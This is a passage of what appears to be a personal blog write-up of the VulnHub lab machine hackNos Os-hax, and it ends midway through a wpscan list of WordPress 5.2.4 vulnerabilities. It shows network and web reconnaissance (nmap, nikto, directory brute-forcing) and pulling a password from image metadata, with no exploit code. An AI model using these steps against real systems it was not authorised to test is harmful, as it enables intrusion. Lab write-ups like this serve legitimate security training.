









<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>/f0c1s/blog/sec/vulnhub/hackNos-os-hax</title>
        <link rel="stylesheet" href="../../../index.css"/>
        <link rel="stylesheet" href="../../../highlight/styles/monokai.min.css"/>
        <script src="../../../highlight/highlight.min.js"></script>
        <script src="../../../setup.js"></script>
        <script>hljs.highlightAll();</script>
    </head>
<body onload="setup()">
<h1>/f0c1s/blog/sec/vulnhub/hackNos-os-hax</h1>

<p>
    <a href="../../../index.html">/blog</a>
    <a href="../../index.html">Security</a>
    <a href="../index.html">VulnHub</a>
    <a href="../../../sec/vulnhub/hackNos-os-hax/hackNos-os-hax.html">+ os-hax - 2021.12.28 Tuesday</a>
</p>

## Description

> Difficulty : Intermediate
> 
> Flag : boot-root
> 
> Learing : exploit | web application Security | Privilege Escalation
> 
> Contact .. https://www.linkedin.com/in/rahulgehlaut/
> 
> This works better with VirtualBox rather than VMware
>

[VulnHub: https://www.vulnhub.com/entry/hacknos-os-hax,389/](https://www.vulnhub.com/entry/hacknos-os-hax,389/)
[series: https://www.vulnhub.com/series/hacknos,257/](https://www.vulnhub.com/series/hacknos,257/)



## Scanning

```shell
fping -aAqg 192.168.56.1/24 
192.168.56.1
192.168.56.2
192.168.56.70
192.168.56.84
                                                                                                                                                                                                                                           
```

```shell
export RHOST="192.168.56.84"
export LHOST="192.168.56.70"
export LPORT="443"
                                                                                                                                                                                                                                           
```

```shell
_n $RHOST                   
firing nmap 192.168.56.84 | tee nmap.default.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-28 14:31 IST
Nmap scan report for 192.168.56.84
Host is up (0.00019s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
                                                                                                                                                                                                                                           
```

```shell
_ntd $RHOST
firing nmap 192.168.56.84 -p- -Pn -A -T4 --min-rate=5000 -sVC | tee nmap.tcp-ports.deep.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-28 14:31 IST
Nmap scan report for 192.168.56.84
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 43:0e:61:74:5a:cc:e1:6b:72:39:b2:93:4e:e3:d0:81 (RSA)
|   256 43:97:64:12:1d:eb:f1:e9:8c:d1:41:6d:ed:a4:5e:9c (ECDSA)
|_  256 e6:3a:13:8a:77:84:be:08:57:d2:36:8a:18:c9:09:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Hacker_James
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.02 seconds
                                                                                                                                                                                                                                           
```

```shell
sudo nmap $RHOST -n -p- -Pn -T4 --min-rate=5000 --top-ports=100 -sU --open | tee nmap.udp.top-100.txt                  
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-28 14:32 IST
Nmap scan report for 192.168.56.84
Host is up (0.00065s latency).
All 100 scanned ports on 192.168.56.84 are in ignored states.
Not shown: 94 open|filtered udp ports (no-response), 6 closed udp ports (port-unreach)
MAC Address: 08:00:27:6E:18:1C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
                                                                                                                                                                                                                                           
```

```shell
sudo nmap $RHOST -n -p22,80 -Pn -T4 --min-rate=5000 --top-ports=100 -sVC -A --script=*enum* | tee nmap.deep-enum.txt 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-28 14:32 IST
Nmap scan report for 192.168.56.84
Host is up (0.0010s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh2-enum-algos: 
|   kex_algorithms: (6)
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (5)
|       ssh-rsa
|       rsa-sha2-512
|       rsa-sha2-256
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-enum: 
|   /wordpress/: Blog
|   /wordpress/wp-login.php: Wordpress login page.
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /html/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:6E:18:1C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.04 ms 192.168.56.84

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.40 seconds
                                                                                                                                                                                                                                           
```

## Attacking web



There is mention of "James", I guess its the user.

```shell
nikto -C all -host http://$RHOST | tee nikto.txt
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.84
+ Target Hostname:    192.168.56.84
+ Target Port:        80
+ Start Time:         2021-12-28 14:33:54 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
- STATUS: Completed 290 requests (~4% complete, 46 seconds left): currently in plugin 'Site Files'
- STATUS: Running average: 100 requests: 0.00558 sec, 10 requests: 0.0060 sec.
+ Server may leak inodes via ETags, header found with file /, inode: c3f, size: 596423114adc0, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /html/: Directory indexing found.
+ OSVDB-3092: /html/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 26522 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2021-12-28 14:35:24 (GMT5.5) (90 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
                                                                                                                   
```



```shell
feroxbuster -q -u http://$RHOST -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k   
301        9l       28w      312c http://192.168.56.84/img
301        9l       28w      318c http://192.168.56.84/img/icons
301        9l       28w      313c http://192.168.56.84/html
301        9l       28w      312c http://192.168.56.84/css
301        9l       28w      318c http://192.168.56.84/wordpress
301        9l       28w      311c http://192.168.56.84/js
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_192_168_56_84-1640682712.state ...
Scanning: http://192.168.56.84
Scanning: http://192.168.56.84/img
Scanning: http://192.168.56.84/html
Scanning: http://192.168.56.84/css
Scanning: http://192.168.56.84/wordpress
Scanning: http://192.168.56.84/js
                                                                                                                   
```

```shell
curl -s -I http://$RHOST/robots.txt | tee curl.-sI-robots.txt
HTTP/1.1 404 Not Found
Date: Tue, 28 Dec 2021 09:12:13 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Type: text/html; charset=iso-8859-1

                                                                                                                   
```

```shell
curl -s http://$RHOST/robots.txt | html2text | tee curl.html2text.robots.txt
****** Not Found ******
The requested URL was not found on this server.
===============================================================================
     Apache/2.4.18 (Ubuntu) Server at 192.168.56.84 Port 80
                                                                                                                   
```

```shell
wget -q $RHOST/img/bg.jpg
```

```shell
exiftool bg.jpg   
ExifTool Version Number         : 12.36
File Name                       : bg.jpg
Directory                       : .
File Size                       : 759 KiB
File Modification Date/Time     : 2019:11:01 10:58:05+05:30
File Access Date/Time           : 2021:12:28 14:46:39+05:30
File Inode Change Date/Time     : 2021:12:28 14:46:35+05:30
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 100.
Image Width                     : 1920
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1920x1080
Megapixels                      : 2.1
                                                                                                                   
```

```shell
exiftool -b bg.jpg          
12.36bg.jpg.7768862019:11:01 10:58:05+05:302021:12:28 14:46:35+05:302021:12:28 14:46:35+05:30100644JPEGJPGimage/jpeg1 1011CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 100
192010800832 21920 10802.0736                                                                                                                   
```



```shell
wget -q $RHOST/img/flaghost.png


exiftool flaghost.png 
ExifTool Version Number         : 12.36
File Name                       : flaghost.png
Directory                       : .
File Size                       : 26 KiB
File Modification Date/Time     : 2019:11:01 16:20:17+05:30
File Access Date/Time           : 2021:12:28 14:48:54+05:30
File Inode Change Date/Time     : 2021:12:28 14:48:54+05:30
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 387
Image Height                    : 98
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Make                            : passw@45
Image Size                      : 387x98
Megapixels                      : 0.038
                                                                                                                   
```

Found a password: `passw@45`

```shell
wpscan --url http://$RHOST/wordpress/ --api-token="$WP_API_TOKEN" --enumerate ap,at,cb,dbe,u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.56.84/wordpress/ [192.168.56.84]
[+] Started: Tue Dec 28 14:40:22 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.56.84/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.56.84/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.56.84/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.56.84/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.4 identified (Insecure, released on 2019-10-14).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.56.84/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.2.4'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.56.84/wordpress/, Match: 'WordPress 5.2.4'
 |
 | [!] 20 vulnerabilities identified:
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Improper Access Controls in REST API
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/4a6de154-5fbd-4c80-acd3-8902ee431bd8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20043
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16788
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-g7rg-hchx-c2gw
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Crafted Links
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/23553517-34e3-40a9-a406-f3ffbe9dd265
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20042
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://hackerone.com/reports/509930
 |      - https://github.com/WordPress/wordpress-develop/commit/1f7f3f1f59567e2504f0fbebd51ccf004b3ccb1d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xvg2-m2f4-83m7
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Block Editor Content
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/be794159-4486-4ae1-a5cc-5c190e5ddf5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16781
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16780
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pg4x-64rh-3c9v
 |
 | [!] Title: WordPress <= 5.3 - wp_kses_bad_protocol() Colon Bypass
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/8fac612b-95d2-477a-a7d6-e5ec0bb9ca52
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20041
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/b1975463dd995da19bb40d3fa0786498717e3c53
 |
 | [!] Title: WordPress < 5.4.1 - Password Reset Tokens Failed to Be Properly Invalidated
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/7db191c0-d112-4f08-a419-a1cd81928c4e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11027
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47634/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-ww7v-jg8c-q6jw
 |
 | [!] Title: WordPress < 5.4.1 - Unauthenticated Users View Private Posts
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/d1e1ba25-98c9-4ae7-8027-9632fb825a56
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11028
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47635/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xhx9-759f-6p2w
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Customizer
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/4eee26bd-a27e-4509-a3a5-8019dd48e429
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11025
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47633/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4mhg-j6fx-5g3c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Search Block
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/e4bda91b-067d-45e4-a8be-672ccf8b1a06
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11030
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47636/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-vccm-6gmc-qhjh
 |
 | [!] Title: WordPress < 5.4.1 - Cross-Site Scripting (XSS) in wp-object-cache
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/e721d8b9-a38f-44ac-8520-b4a9ed6a5157
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11029
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47637/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-568w-8m88-8g2c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in File Uploads
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/55438b63-5fc9-4812-afc4-2f1eff800d5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11026
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47638/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-3gw2-4656-pfr2
 |      - https://hackerone.com/reports/179695
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS in Block Editor
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/831e4a94-239c-4061-b66e-f5ca0dbb84fa
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4046
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rpwf-hrh2-39jf
 |      - https://pentest.co.uk/labs/research/subtle-stored-xss-wordpress-core/
 |      - https://www.youtube.com/watch?v=tCh7Y8z8fb4
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS via Media Files
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/741d07d1-2476-430a-b82f-e1228a9343a4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4047
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-8q2w-5m27-wm27
 |
 | [!] Title: WordPress < 5.4.2 - Open Redirection
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/12855f02-432e-4484-af09-7d0fbf596909
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4048
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/10e2a50c523cf0b9785555a688d7d36a40fbeccf
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-q6pw-gvf4-5fj5
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated Stored XSS via Theme Upload
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/d8addb42-e70b-4439-b828-fd0697e5d9d4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4049
 |      - https://www.exploit-db.com/exploits/48770/
